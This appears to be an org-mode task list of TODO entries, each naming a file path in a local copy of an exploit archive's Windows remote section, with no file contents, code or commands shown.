**** TODO file:/root/work/exploitdb/winremote/17366.rb
**** TODO file:/root/work/exploitdb/winremote/17373.py
**** TODO file:/root/work/exploitdb/winremote/17374.rb
**** TODO file:/root/work/exploitdb/winremote/17381.txt
**** TODO file:/root/work/exploitdb/winremote/17392.rb
**** TODO file:/root/work/exploitdb/winremote/17409.rb
**** TODO file:/root/work/exploitdb/winremote/17415.rb
**** TODO file:/root/work/exploitdb/winremote/17416.html
**** TODO file:/root/work/exploitdb/winremote/17417.rb
**** TODO file:/root/work/exploitdb/winremote/17419.zip
**** TODO file:/root/work/exploitdb/winremote/17424.rb
**** TODO file:/root/work/exploitdb/winremote/17429.rb
**** TODO file:/root/work/exploitdb/winremote/17430.rb
**** TODO file:/root/work/exploitdb/winremote/17434.rb
**** TODO file:/root/work/exploitdb/winremote/17438.txt
**** TODO file:/root/work/exploitdb/winremote/17448.rb
**** TODO file:/root/work/exploitdb/winremote/17450.rb
**** TODO file:/root/work/exploitdb/winremote/17456.rb
**** TODO file:/root/work/exploitdb/winremote/17460.pl
**** TODO file:/root/work/exploitdb/winremote/17467.rb
**** TODO file:/root/work/exploitdb/winremote/17468.py
**** TODO file:/root/work/exploitdb/winremote/17490.rb
**** TODO file:/root/work/exploitdb/winremote/17498.rb
**** TODO file:/root/work/exploitdb/winremote/17513.rb
**** TODO file:/root/work/exploitdb/winremote/17517.txt
**** TODO file:/root/work/exploitdb/winremote/17519.py
**** TODO file:/root/work/exploitdb/winremote/17520.rb
**** TODO file:/root/work/exploitdb/winremote/17527.py
**** TODO file:/root/work/exploitdb/winremote/17536.rb
**** TODO file:/root/work/exploitdb/winremote/17537.rb
**** TODO file:/root/work/exploitdb/winremote/17539.rb
**** TODO file:/root/work/exploitdb/winremote/17540.rb
**** TODO file:/root/work/exploitdb/winremote/17543.rb
**** TODO file:/root/work/exploitdb/winremote/17546.py
**** TODO file:/root/work/exploitdb/winremote/17548.rb
**** TODO file:/root/work/exploitdb/winremote/17550.py
**** TODO file:/root/work/exploitdb/winremote/17557.html
**** TODO file:/root/work/exploitdb/winremote/17575.txt
**** TODO file:/root/work/exploitdb/winremote/17578.txt
**** TODO file:/root/work/exploitdb/winremote/17581.txt
**** TODO file:/root/work/exploitdb/winremote/17588.rb
**** TODO file:/root/work/exploitdb/winremote/175.pl
**** TODO file:/root/work/exploitdb/winremote/17612.rb
**** TODO file:/root/work/exploitdb/winremote/17619.py
**** TODO file:/root/work/exploitdb/winremote/17626.rb
**** TODO file:/root/work/exploitdb/winremote/17649.py
**** TODO file:/root/work/exploitdb/winremote/17650.rb
**** TODO file:/root/work/exploitdb/winremote/17656.rb
**** TODO file:/root/work/exploitdb/winremote/17659.rb
**** TODO file:/root/work/exploitdb/winremote/17669.py
**** TODO file:/root/work/exploitdb/winremote/17672.html
**** TODO file:/root/work/exploitdb/winremote/17692.rb
**** TODO file:/root/work/exploitdb/winremote/17697.rb
**** TODO file:/root/work/exploitdb/winremote/17699.rb
**** TODO file:/root/work/exploitdb/winremote/17700.rb
**** TODO file:/root/work/exploitdb/winremote/17719.rb
**** TODO file:/root/work/exploitdb/winremote/17721.rb
**** TODO file:/root/work/exploitdb/winremote/17762.rb
**** TODO file:/root/work/exploitdb/winremote/1776.c
**** TODO file:/root/work/exploitdb/winremote/17776.txt
**** TODO file:/root/work/exploitdb/winremote/17810.rb
**** TODO file:/root/work/exploitdb/winremote/17819.py
**** TODO file:/root/work/exploitdb/winremote/17827.rb
**** TODO file:/root/work/exploitdb/winremote/17848.rb
**** TODO file:/root/work/exploitdb/winremote/17849.rb
**** TODO file:/root/work/exploitdb/winremote/17853.txt
**** TODO file:/root/work/exploitdb/winremote/17855.rb
**** TODO file:/root/work/exploitdb/winremote/17870.pl
**** TODO file:/root/work/exploitdb/winremote/17876.py
**** TODO file:/root/work/exploitdb/winremote/1787.py
**** TODO file:/root/work/exploitdb/winremote/17884.py
**** TODO file:/root/work/exploitdb/winremote/17886.py
**** TODO file:/root/work/exploitdb/winremote/1788.pm
**** TODO file:/root/work/exploitdb/winremote/17904.rb
**** TODO file:/root/work/exploitdb/winremote/17936.rb
**** TODO file:/root/work/exploitdb/winremote/17948.rb
**** TODO file:/root/work/exploitdb/winremote/17960.rb
**** TODO file:/root/work/exploitdb/winremote/17974.html
**** TODO file:/root/work/exploitdb/winremote/17975.rb
**** TODO file:/root/work/exploitdb/winremote/17976.rb
**** TODO file:/root/work/exploitdb/winremote/17977.txt
**** TODO file:/root/work/exploitdb/winremote/17993.rb
**** TODO file:/root/work/exploitdb/winremote/18016.txt
**** TODO file:/root/work/exploitdb/winremote/18051.txt
**** TODO file:/root/work/exploitdb/winremote/18057.rb
**** TODO file:/root/work/exploitdb/winremote/18062.txt
**** TODO file:/root/work/exploitdb/winremote/18089.rb
**** TODO file:/root/work/exploitdb/winremote/18092.html
**** TODO file:/root/work/exploitdb/winremote/18093.txt
**** TODO file:/root/work/exploitdb/winremote/18102.rb
**** TODO file:/root/work/exploitdb/winremote/18104.txt
**** TODO file:/root/work/exploitdb/winremote/18123.rb
**** TODO file:/root/work/exploitdb/winremote/18125.rb
**** TODO file:/root/work/exploitdb/winremote/18134.rb
**** TODO file:/root/work/exploitdb/winremote/18138.txt
**** TODO file:/root/work/exploitdb/winremote/18182.txt
**** TODO file:/root/work/exploitdb/winremote/18183.rb
**** TODO file:/root/work/exploitdb/winremote/18187.c
**** TODO file:/root/work/exploitdb/winremote/18189.txt
**** TODO file:/root/work/exploitdb/winremote/18190.rb
**** TODO file:/root/work/exploitdb/winremote/18194.rb
**** TODO file:/root/work/exploitdb/winremote/18200.txt
**** TODO file:/root/work/exploitdb/winremote/18235.pl
**** TODO file:/root/work/exploitdb/winremote/18240.rb
**** TODO file:/root/work/exploitdb/winremote/18283.rb
**** TODO file:/root/work/exploitdb/winremote/18345.py
**** TODO file:/root/work/exploitdb/winremote/18354.py
**** TODO file:/root/work/exploitdb/winremote/18365.rb
**** TODO file:/root/work/exploitdb/winremote/18367.rb
**** TODO file:/root/work/exploitdb/winremote/18376.rb
**** TODO file:/root/work/exploitdb/winremote/18381.rb
**** TODO file:/root/work/exploitdb/winremote/18382.py
**** TODO file:/root/work/exploitdb/winremote/18388.rb
**** TODO file:/root/work/exploitdb/winremote/18397.py
**** TODO file:/root/work/exploitdb/winremote/18401.py
**** TODO file:/root/work/exploitdb/winremote/18420.rb
**** TODO file:/root/work/exploitdb/winremote/18423.rb
**** TODO file:/root/work/exploitdb/winremote/18426.rb
**** TODO file:/root/work/exploitdb/winremote/18437.txt
**** TODO file:/root/work/exploitdb/winremote/18448.rb
**** TODO file:/root/work/exploitdb/winremote/18449.rb
**** TODO file:/root/work/exploitdb/winremote/18476.py
**** TODO file:/root/work/exploitdb/winremote/18478.rb
**** TODO file:/root/work/exploitdb/winremote/18479.rb
**** TODO file:/root/work/exploitdb/winremote/18485.rb
**** TODO file:/root/work/exploitdb/winremote/18514.rb
**** TODO file:/root/work/exploitdb/winremote/18520.rb
**** TODO file:/root/work/exploitdb/winremote/18521.rb
**** TODO file:/root/work/exploitdb/winremote/18531.html
**** TODO file:/root/work/exploitdb/winremote/18534.py
**** TODO file:/root/work/exploitdb/winremote/18535.py
**** TODO file:/root/work/exploitdb/winremote/18538.rb
**** TODO file:/root/work/exploitdb/winremote/18539.rb
**** TODO file:/root/work/exploitdb/winremote/18542.txt
**** TODO file:/root/work/exploitdb/winremote/18543.py
**** TODO file:/root/work/exploitdb/winremote/18555.txt
**** TODO file:/root/work/exploitdb/winremote/18557.rb
**** TODO file:/root/work/exploitdb/winremote/18570.rb
**** TODO file:/root/work/exploitdb/winremote/18572.rb
**** TODO file:/root/work/exploitdb/winremote/18604.rb
**** TODO file:/root/work/exploitdb/winremote/18610.pl
**** TODO file:/root/work/exploitdb/winremote/18621.txt
**** TODO file:/root/work/exploitdb/winremote/18622.txt
**** TODO file:/root/work/exploitdb/winremote/18623.txt
**** TODO file:/root/work/exploitdb/winremote/18624.txt
**** TODO file:/root/work/exploitdb/winremote/18625.txt
**** TODO file:/root/work/exploitdb/winremote/18634.rb
**** TODO file:/root/work/exploitdb/winremote/18640.txt
**** TODO file:/root/work/exploitdb/winremote/18642.rb
**** TODO file:/root/work/exploitdb/winremote/18658.rb
**** TODO file:/root/work/exploitdb/winremote/18666.rb
**** TODO file:/root/work/exploitdb/winremote/18672.txt
**** TODO file:/root/work/exploitdb/winremote/18674.txt
**** TODO file:/root/work/exploitdb/winremote/18683.py
**** TODO file:/root/work/exploitdb/winremote/18695.py
**** TODO file:/root/work/exploitdb/winremote/18697.rb
**** TODO file:/root/work/exploitdb/winremote/18703.txt
**** TODO file:/root/work/exploitdb/winremote/18704.txt
**** TODO file:/root/work/exploitdb/winremote/18709.rb
**** TODO file:/root/work/exploitdb/winremote/18714.rb
**** TODO file:/root/work/exploitdb/winremote/18718.txt
**** TODO file:/root/work/exploitdb/winremote/18723.rb
**** TODO file:/root/work/exploitdb/winremote/18727.rb
**** TODO file:/root/work/exploitdb/winremote/18735.rb
**** TODO file:/root/work/exploitdb/winremote/18759.rb
**** TODO file:/root/work/exploitdb/winremote/18780.rb
**** TODO file:/root/work/exploitdb/winremote/18805.txt
**** TODO file:/root/work/exploitdb/winremote/18812.rb
**** TODO file:/root/work/exploitdb/winremote/18818.py
**** TODO file:/root/work/exploitdb/winremote/18825.rb
**** TODO file:/root/work/exploitdb/winremote/18833.rb
**** TODO file:/root/work/exploitdb/winremote/18847.rb
**** TODO file:/root/work/exploitdb/winremote/1885.pl
**** TODO file:/root/work/exploitdb/winremote/18866.rb
**** TODO file:/root/work/exploitdb/winremote/18870.rb
**** TODO file:/root/work/exploitdb/winremote/18897.rb
**** TODO file:/root/work/exploitdb/winremote/18915.rb
**** TODO file:/root/work/exploitdb/winremote/18929.rb
**** TODO file:/root/work/exploitdb/winremote/18933.rb
**** TODO file:/root/work/exploitdb/winremote/18967.rb
**** TODO file:/root/work/exploitdb/winremote/18968.rb
**** TODO file:/root/work/exploitdb/winremote/18969.rb
**** TODO file:/root/work/exploitdb/winremote/18973.rb
**** TODO file:/root/work/exploitdb/winremote/18986.rb
**** TODO file:/root/work/exploitdb/winremote/189.c
**** TODO file:/root/work/exploitdb/winremote/19002.rb
**** TODO file:/root/work/exploitdb/winremote/19025.rb
**** TODO file:/root/work/exploitdb/winremote/19026.rb
**** TODO file:/root/work/exploitdb/winremote/19027.rb
**** TODO file:/root/work/exploitdb/winremote/19030.rb
**** TODO file:/root/work/exploitdb/winremote/19033.txt
**** TODO file:/root/work/exploitdb/winremote/1906.py
**** TODO file:/root/work/exploitdb/winremote/19083.
**** TODO file:/root/work/exploitdb/winremote/19083.cpp
**** TODO file:/root/work/exploitdb/winremote/19094.
**** TODO file:/root/work/exploitdb/winremote/190.c
**** TODO file:/root/work/exploitdb/winremote/19113.
**** TODO file:/root/work/exploitdb/winremote/19118.
**** TODO file:/root/work/exploitdb/winremote/19131.py
**** TODO file:/root/work/exploitdb/winremote/19141.rb
**** TODO file:/root/work/exploitdb/winremote/19147.
**** TODO file:/root/work/exploitdb/winremote/19149.
**** TODO file:/root/work/exploitdb/winremote/19149.c
**** TODO file:/root/work/exploitdb/winremote/19152.
**** TODO file:/root/work/exploitdb/winremote/19153.
**** TODO file:/root/work/exploitdb/winremote/19156.
**** TODO file:/root/work/exploitdb/winremote/1915.pm
**** TODO file:/root/work/exploitdb/winremote/19164.
**** TODO file:/root/work/exploitdb/winremote/19177.rb
**** TODO file:/root/work/exploitdb/winremote/19186.rb
**** TODO file:/root/work/exploitdb/winremote/19190.
**** TODO file:/root/work/exploitdb/winremote/19197.
**** TODO file:/root/work/exploitdb/winremote/191.pl
**** TODO file:/root/work/exploitdb/winremote/19208.
**** TODO file:/root/work/exploitdb/winremote/19224.c
**** TODO file:/root/work/exploitdb/winremote/19231.rb
**** TODO file:/root/work/exploitdb/winremote/19238.
**** TODO file:/root/work/exploitdb/winremote/19239.
**** TODO file:/root/work/exploitdb/winremote/19245.
**** TODO file:/root/work/exploitdb/winremote/19245.pl
**** TODO file:/root/work/exploitdb/winremote/19246.
**** TODO file:/root/work/exploitdb/winremote/19246.pm
**** TODO file:/root/work/exploitdb/winremote/19247.
**** TODO file:/root/work/exploitdb/winremote/19248.
**** TODO file:/root/work/exploitdb/winremote/19248.c
**** TODO file:/root/work/exploitdb/winremote/19266.py
**** TODO file:/root/work/exploitdb/winremote/19288.py
**** TODO file:/root/work/exploitdb/winremote/19291.rb
**** TODO file:/root/work/exploitdb/winremote/19295.rb
**** TODO file:/root/work/exploitdb/winremote/192.pl
**** TODO file:/root/work/exploitdb/winremote/19322.rb
**** TODO file:/root/work/exploitdb/winremote/19361.
**** TODO file:/root/work/exploitdb/winremote/19369.rb
**** TODO file:/root/work/exploitdb/winremote/19387.rb
**** TODO file:/root/work/exploitdb/winremote/19407.py
**** TODO file:/root/work/exploitdb/winremote/1940.pm
**** TODO file:/root/work/exploitdb/winremote/19424.pl
**** TODO file:/root/work/exploitdb/winremote/19435.html
**** TODO file:/root/work/exploitdb/winremote/19442.html
**** TODO file:/root/work/exploitdb/winremote/19448.c
**** TODO file:/root/work/exploitdb/winremote/19449.c
**** TODO file:/root/work/exploitdb/winremote/19450.c
**** TODO file:/root/work/exploitdb/winremote/19468.
**** TODO file:/root/work/exploitdb/winremote/19484.rb
**** TODO file:/root/work/exploitdb/winremote/19486.c
**** TODO file:/root/work/exploitdb/winremote/19487.
**** TODO file:/root/work/exploitdb/winremote/19490.
**** TODO file:/root/work/exploitdb/winremote/19491.
**** TODO file:/root/work/exploitdb/winremote/19494.c
**** TODO file:/root/work/exploitdb/winremote/19495.c
**** TODO file:/root/work/exploitdb/winremote/19496.c
**** TODO file:/root/work/exploitdb/winremote/19514.txt
**** TODO file:/root/work/exploitdb/winremote/19515.txt
**** TODO file:/root/work/exploitdb/winremote/19521.txt
**** TODO file:/root/work/exploitdb/winremote/19530.txt
**** TODO file:/root/work/exploitdb/winremote/19537.txt
**** TODO file:/root/work/exploitdb/winremote/19539.txt
**** TODO file:/root/work/exploitdb/winremote/19540.txt
**** TODO file:/root/work/exploitdb/winremote/19559.txt
**** TODO file:/root/work/exploitdb/winremote/19561.c
**** TODO file:/root/work/exploitdb/winremote/19566.c
**** TODO file:/root/work/exploitdb/winremote/19568.txt
**** TODO file:/root/work/exploitdb/winremote/19570.txt
**** TODO file:/root/work/exploitdb/winremote/19576.rb
**** TODO file:/root/work/exploitdb/winremote/19577.py
**** TODO file:/root/work/exploitdb/winremote/19578.txt
**** TODO file:/root/work/exploitdb/winremote/19580.txt
**** TODO file:/root/work/exploitdb/winremote/19584.c
**** TODO file:/root/work/exploitdb/winremote/19586.c
**** TODO file:/root/work/exploitdb/winremote/19587.txt
**** TODO file:/root/work/exploitdb/winremote/19588.c
**** TODO file:/root/work/exploitdb/winremote/19589.txt
**** TODO file:/root/work/exploitdb/winremote/19591.txt
**** TODO file:/root/work/exploitdb/winremote/19592.asm
**** TODO file:/root/work/exploitdb/winremote/19593.c
**** TODO file:/root/work/exploitdb/winremote/19595.c
**** TODO file:/root/work/exploitdb/winremote/19596.txt
**** TODO file:/root/work/exploitdb/winremote/19601.txt
**** TODO file:/root/work/exploitdb/winremote/19603.txt
**** TODO file:/root/work/exploitdb/winremote/19607.c
**** TODO file:/root/work/exploitdb/winremote/19608.c
**** TODO file:/root/work/exploitdb/winremote/19611.txt
**** TODO file:/root/work/exploitdb/winremote/19612.pl
**** TODO file:/root/work/exploitdb/winremote/19613.rb
**** TODO file:/root/work/exploitdb/winremote/19614.asm
**** TODO file:/root/work/exploitdb/winremote/19616.c
**** TODO file:/root/work/exploitdb/winremote/19617.txt
**** TODO file:/root/work/exploitdb/winremote/19618.txt
**** TODO file:/root/work/exploitdb/winremote/19621.c
**** TODO file:/root/work/exploitdb/winremote/19622.c
**** TODO file:/root/work/exploitdb/winremote/19623.c
**** TODO file:/root/work/exploitdb/winremote/19625.py
**** TODO file:/root/work/exploitdb/winremote/19636.txt
**** TODO file:/root/work/exploitdb/winremote/19637.txt
**** TODO file:/root/work/exploitdb/winremote/19638.c
**** TODO file:/root/work/exploitdb/winremote/19640.txt
**** TODO file:/root/work/exploitdb/winremote/1965.pm
**** TODO file:/root/work/exploitdb/winremote/19662.txt
**** TODO file:/root/work/exploitdb/winremote/19664.txt
**** TODO file:/root/work/exploitdb/winremote/19679.txt
**** TODO file:/root/work/exploitdb/winremote/19688.txt
**** TODO file:/root/work/exploitdb/winremote/19689.c
**** TODO file:/root/work/exploitdb/winremote/19695.txt
**** TODO file:/root/work/exploitdb/winremote/19718.rb
**** TODO file:/root/work/exploitdb/winremote/19719.txt
**** TODO file:/root/work/exploitdb/winremote/19724.txt
**** TODO file:/root/work/exploitdb/winremote/19730.c
**** TODO file:/root/work/exploitdb/winremote/19731.c
**** TODO file:/root/work/exploitdb/winremote/19734.java
**** TODO file:/root/work/exploitdb/winremote/19736.txt
**** TODO file:/root/work/exploitdb/winremote/19737.c
**** TODO file:/root/work/exploitdb/winremote/19738.txt
**** TODO file:/root/work/exploitdb/winremote/19743.txt
**** TODO file:/root/work/exploitdb/winremote/19748.txt
**** TODO file:/root/work/exploitdb/winremote/19753.txt
**** TODO file:/root/work/exploitdb/winremote/19761.txt
**** TODO file:/root/work/exploitdb/winremote/19805.txt
**** TODO file:/root/work/exploitdb/winremote/19809.txt
**** TODO file:/root/work/exploitdb/winremote/19815.txt
**** TODO file:/root/work/exploitdb/winremote/19819.txt
**** TODO file:/root/work/exploitdb/winremote/19820.txt
**** TODO file:/root/work/exploitdb/winremote/19830.txt
**** TODO file:/root/work/exploitdb/winremote/19845.pl
**** TODO file:/root/work/exploitdb/winremote/19846.pl
**** TODO file:/root/work/exploitdb/winremote/19857.rb
**** TODO file:/root/work/exploitdb/winremote/19871.txt
**** TODO file:/root/work/exploitdb/winremote/19877.txt
**** TODO file:/root/work/exploitdb/winremote/19881.txt
**** TODO file:/root/work/exploitdb/winremote/19889.c
**** TODO file:/root/work/exploitdb/winremote/19893.c
**** TODO file:/root/work/exploitdb/winremote/19895.txt
**** TODO file:/root/work/exploitdb/winremote/19897.txt
**** TODO file:/root/work/exploitdb/winremote/19908.txt
**** TODO file:/root/work/exploitdb/winremote/19914.txt
**** TODO file:/root/work/exploitdb/winremote/19922.pl
**** TODO file:/root/work/exploitdb/winremote/19928.txt
**** TODO file:/root/work/exploitdb/winremote/19931.rb
**** TODO file:/root/work/exploitdb/winremote/19932.rb
**** TODO file:/root/work/exploitdb/winremote/19937.pl
**** TODO file:/root/work/exploitdb/winremote/19939.html
**** TODO file:/root/work/exploitdb/winremote/19942.txt
**** TODO file:/root/work/exploitdb/winremote/19957.txt
**** TODO file:/root/work/exploitdb/winremote/19958.rb
**** TODO file:/root/work/exploitdb/winremote/19959.rb
**** TODO file:/root/work/exploitdb/winremote/19973.txt
**** TODO file:/root/work/exploitdb/winremote/19975.pl
**** TODO file:/root/work/exploitdb/winremote/19976.txt
**** TODO file:/root/work/exploitdb/winremote/19997.java
**** TODO file:/root/work/exploitdb/winremote/1.c
**** TODO file:/root/work/exploitdb/winremote/20005.c
**** TODO file:/root/work/exploitdb/winremote/20006.nasl
**** TODO file:/root/work/exploitdb/winremote/20015.txt
**** TODO file:/root/work/exploitdb/winremote/20019.txt
**** TODO file:/root/work/exploitdb/winremote/20028.rb
**** TODO file:/root/work/exploitdb/winremote/20040.c
**** TODO file:/root/work/exploitdb/winremote/20047.txt
**** TODO file:/root/work/exploitdb/winremote/20048.txt
**** TODO file:/root/work/exploitdb/winremote/20049.txt
**** TODO file:/root/work/exploitdb/winremote/20065.txt
**** TODO file:/root/work/exploitdb/winremote/20066.java
**** TODO file:/root/work/exploitdb/winremote/20070.txt
**** TODO file:/root/work/exploitdb/winremote/20074.java
**** TODO file:/root/work/exploitdb/winremote/20078.pl
**** TODO file:/root/work/exploitdb/winremote/20079.txt
**** TODO file:/root/work/exploitdb/winremote/20086.c
**** TODO file:/root/work/exploitdb/winremote/20089.txt
**** TODO file:/root/work/exploitdb/winremote/20096.txt
**** TODO file:/root/work/exploitdb/winremote/20099.c
**** TODO file:/root/work/exploitdb/winremote/20103.txt
**** TODO file:/root/work/exploitdb/winremote/20106.cpp
**** TODO file:/root/work/exploitdb/winremote/20112.rb
**** TODO file:/root/work/exploitdb/winremote/20120.pl
**** TODO file:/root/work/exploitdb/winremote/20121.rb
**** TODO file:/root/work/exploitdb/winremote/20122.rb
**** TODO file:/root/work/exploitdb/winremote/20125.txt
**** TODO file:/root/work/exploitdb/winremote/20134.pl
**** TODO file:/root/work/exploitdb/winremote/20135.txt
**** TODO file:/root/work/exploitdb/winremote/20136.txt
**** TODO file:/root/work/exploitdb/winremote/20148.pl
**** TODO file:/root/work/exploitdb/winremote/2014.pl
**** TODO file:/root/work/exploitdb/winremote/20151.pl
**** TODO file:/root/work/exploitdb/winremote/20152.pl
**** TODO file:/root/work/exploitdb/winremote/20174.rb
**** TODO file:/root/work/exploitdb/winremote/20180.c
**** TODO file:/root/work/exploitdb/winremote/20182.txt
**** TODO file:/root/work/exploitdb/winremote/20184.txt
**** TODO file:/root/work/exploitdb/winremote/20202.rb
**** TODO file:/root/work/exploitdb/winremote/20204.rb
**** TODO file:/root/work/exploitdb/winremote/20211.c
**** TODO file:/root/work/exploitdb/winremote/20214.pl
**** TODO file:/root/work/exploitdb/winremote/20222.cpp
**** TODO file:/root/work/exploitdb/winremote/20223.txt
**** TODO file:/root/work/exploitdb/winremote/20224.txt
**** TODO file:/root/work/exploitdb/winremote/20225.pl
**** TODO file:/root/work/exploitdb/winremote/20235.pl
**** TODO file:/root/work/exploitdb/winremote/20240.txt
**** TODO file:/root/work/exploitdb/winremote/20243.html
**** TODO file:/root/work/exploitdb/winremote/20247.txt
**** TODO file:/root/work/exploitdb/winremote/20248.txt
**** TODO file:/root/work/exploitdb/winremote/20249.txt
**** TODO file:/root/work/exploitdb/winremote/20266.txt
**** TODO file:/root/work/exploitdb/winremote/20269.txt
**** TODO file:/root/work/exploitdb/winremote/20283.txt
**** TODO file:/root/work/exploitdb/winremote/20284.txt
**** TODO file:/root/work/exploitdb/winremote/20287.c
**** TODO file:/root/work/exploitdb/winremote/20288.c
**** TODO file:/root/work/exploitdb/winremote/20297.rb
**** TODO file:/root/work/exploitdb/winremote/20298.c
**** TODO file:/root/work/exploitdb/winremote/20299.pl
**** TODO file:/root/work/exploitdb/winremote/20300.c
**** TODO file:/root/work/exploitdb/winremote/20301.php
**** TODO file:/root/work/exploitdb/winremote/20302.pl
**** TODO file:/root/work/exploitdb/winremote/20305.txt
**** TODO file:/root/work/exploitdb/winremote/20306.html
**** TODO file:/root/work/exploitdb/winremote/20309.txt
**** TODO file:/root/work/exploitdb/winremote/20318.txt
**** TODO file:/root/work/exploitdb/winremote/20319.txt
**** TODO file:/root/work/exploitdb/winremote/20321.rb
**** TODO file:/root/work/exploitdb/winremote/20324.txt
**** TODO file:/root/work/exploitdb/winremote/20325.txt
**** TODO file:/root/work/exploitdb/winremote/20334.java
**** TODO file:/root/work/exploitdb/winremote/20335.txt
**** TODO file:/root/work/exploitdb/winremote/20355.rb
**** TODO file:/root/work/exploitdb/winremote/20371.txt
**** TODO file:/root/work/exploitdb/winremote/20375.txt
**** TODO file:/root/work/exploitdb/winremote/20384.txt
**** TODO file:/root/work/exploitdb/winremote/20392.rb
**** TODO file:/root/work/exploitdb/winremote/20399.html
**** TODO file:/root/work/exploitdb/winremote/20403.txt
**** TODO file:/root/work/exploitdb/winremote/20424.txt
**** TODO file:/root/work/exploitdb/winremote/20426.html
**** TODO file:/root/work/exploitdb/winremote/20427.txt
**** TODO file:/root/work/exploitdb/winremote/20445.txt
**** TODO file:/root/work/exploitdb/winremote/20459.html
**** TODO file:/root/work/exploitdb/winremote/20460.txt
**** TODO file:/root/work/exploitdb/winremote/20461.txt
**** TODO file:/root/work/exploitdb/winremote/2047.pl
**** TODO file:/root/work/exploitdb/winremote/20481.txt
**** TODO file:/root/work/exploitdb/winremote/20488.txt
**** TODO file:/root/work/exploitdb/winremote/20489.txt
**** TODO file:/root/work/exploitdb/winremote/20501.rb
**** TODO file:/root/work/exploitdb/winremote/20510.txt
**** TODO file:/root/work/exploitdb/winremote/20511.txt
**** TODO file:/root/work/exploitdb/winremote/20528.html
**** TODO file:/root/work/exploitdb/winremote/2052.sh
**** TODO file:/root/work/exploitdb/winremote/20547.txt
**** TODO file:/root/work/exploitdb/winremote/2054.txt
**** TODO file:/root/work/exploitdb/winremote/20553.html
**** TODO file:/root/work/exploitdb/winremote/20557.pl
**** TODO file:/root/work/exploitdb/winremote/20559.c
**** TODO file:/root/work/exploitdb/winremote/20571.txt
**** TODO file:/root/work/exploitdb/winremote/20582.c
**** TODO file:/root/work/exploitdb/winremote/20584.txt
**** TODO file:/root/work/exploitdb/winremote/20590.txt
**** TODO file:/root/work/exploitdb/winremote/20600.c
**** TODO file:/root/work/exploitdb/winremote/20605.cpp
**** TODO file:/root/work/exploitdb/winremote/20607.txt
**** TODO file:/root/work/exploitdb/winremote/20608.txt
**** TODO file:/root/work/exploitdb/winremote/20612.txt
**** TODO file:/root/work/exploitdb/winremote/20614.txt
**** TODO file:/root/work/exploitdb/winremote/20616.txt
**** TODO file:/root/work/exploitdb/winremote/20624.rb
**** TODO file:/root/work/exploitdb/winremote/20628.txt
**** TODO file:/root/work/exploitdb/winremote/20637.txt
**** TODO file:/root/work/exploitdb/winremote/20640.txt
**** TODO file:/root/work/exploitdb/winremote/20647.c
**** TODO file:/root/work/exploitdb/winremote/20653.txt
**** TODO file:/root/work/exploitdb/winremote/20656.txt
**** TODO file:/root/work/exploitdb/winremote/20657.txt
**** TODO file:/root/work/exploitdb/winremote/20661.txt
**** TODO file:/root/work/exploitdb/winremote/20663.txt
**** TODO file:/root/work/exploitdb/winremote/20676.rb
**** TODO file:/root/work/exploitdb/winremote/20680.html
**** TODO file:/root/work/exploitdb/winremote/20682.txt
**** TODO file:/root/work/exploitdb/winremote/20687.txt
**** TODO file:/root/work/exploitdb/winremote/20688.txt
**** TODO file:/root/work/exploitdb/winremote/20702.rb
**** TODO file:/root/work/exploitdb/winremote/2070.pl
**** TODO file:/root/work/exploitdb/winremote/20716.txt
**** TODO file:/root/work/exploitdb/winremote/20717.txt
**** TODO file:/root/work/exploitdb/winremote/20723.pl
**** TODO file:/root/work/exploitdb/winremote/20726.pl
**** TODO file:/root/work/exploitdb/winremote/20728.txt
**** TODO file:/root/work/exploitdb/winremote/2074.pm
**** TODO file:/root/work/exploitdb/winremote/20758.c
**** TODO file:/root/work/exploitdb/winremote/2075.pm
**** TODO file:/root/work/exploitdb/winremote/2076.pl
**** TODO file:/root/work/exploitdb/winremote/20774.txt
**** TODO file:/root/work/exploitdb/winremote/20775.txt
**** TODO file:/root/work/exploitdb/winremote/20782.eml
**** TODO file:/root/work/exploitdb/winremote/20783.txt
**** TODO file:/root/work/exploitdb/winremote/20793.txt
**** TODO file:/root/work/exploitdb/winremote/20794.c
**** TODO file:/root/work/exploitdb/winremote/2079.pl
**** TODO file:/root/work/exploitdb/winremote/20802.c
**** TODO file:/root/work/exploitdb/winremote/20803.txt
**** TODO file:/root/work/exploitdb/winremote/2080.pl
**** TODO file:/root/work/exploitdb/winremote/20812.c
**** TODO file:/root/work/exploitdb/winremote/20814.c
**** TODO file:/root/work/exploitdb/winremote/20815.pl
**** TODO file:/root/work/exploitdb/winremote/20816.c
**** TODO file:/root/work/exploitdb/winremote/20817.c
**** TODO file:/root/work/exploitdb/winremote/20818.txt
**** TODO file:/root/work/exploitdb/winremote/20819.txt
**** TODO file:/root/work/exploitdb/winremote/20820.c
**** TODO file:/root/work/exploitdb/winremote/20825.txt
**** TODO file:/root/work/exploitdb/winremote/20826.txt
**** TODO file:/root/work/exploitdb/winremote/20829.txt
**** TODO file:/root/work/exploitdb/winremote/20830.txt
**** TODO file:/root/work/exploitdb/winremote/20835.c
**** TODO file:/root/work/exploitdb/winremote/20836.c
**** TODO file:/root/work/exploitdb/winremote/20837.pl
**** TODO file:/root/work/exploitdb/winremote/20838.c
**** TODO file:/root/work/exploitdb/winremote/20839.sh
**** TODO file:/root/work/exploitdb/winremote/20840.txt
**** TODO file:/root/work/exploitdb/winremote/20841.txt
**** TODO file:/root/work/exploitdb/winremote/20842.txt
**** TODO file:/root/work/exploitdb/winremote/20850.txt
**** TODO file:/root/work/exploitdb/winremote/20876.pl
**** TODO file:/root/work/exploitdb/winremote/20884.txt
**** TODO file:/root/work/exploitdb/winremote/20886.txt
**** TODO file:/root/work/exploitdb/winremote/20888.txt
**** TODO file:/root/work/exploitdb/winremote/20893.txt
**** TODO file:/root/work/exploitdb/winremote/20896.txt
**** TODO file:/root/work/exploitdb/winremote/20899.txt
**** TODO file:/root/work/exploitdb/winremote/20903.html
**** TODO file:/root/work/exploitdb/winremote/20904.pl
**** TODO file:/root/work/exploitdb/winremote/20910.pl
**** TODO file:/root/work/exploitdb/winremote/20912.txt
**** TODO file:/root/work/exploitdb/winremote/20931.c
**** TODO file:/root/work/exploitdb/winremote/20932.sh
**** TODO file:/root/work/exploitdb/winremote/20933.pl
**** TODO file:/root/work/exploitdb/winremote/20934.txt
**** TODO file:/root/work/exploitdb/winremote/20944.rb
**** TODO file:/root/work/exploitdb/winremote/20947.txt
**** TODO file:/root/work/exploitdb/winremote/20948.txt
**** TODO file:/root/work/exploitdb/winremote/20950.c
**** TODO file:/root/work/exploitdb/winremote/20951.pm
**** TODO file:/root/work/exploitdb/winremote/20980.c
**** TODO file:/root/work/exploitdb/winremote/20.txt
**** TODO file:/root/work/exploitdb/winremote/21003.txt
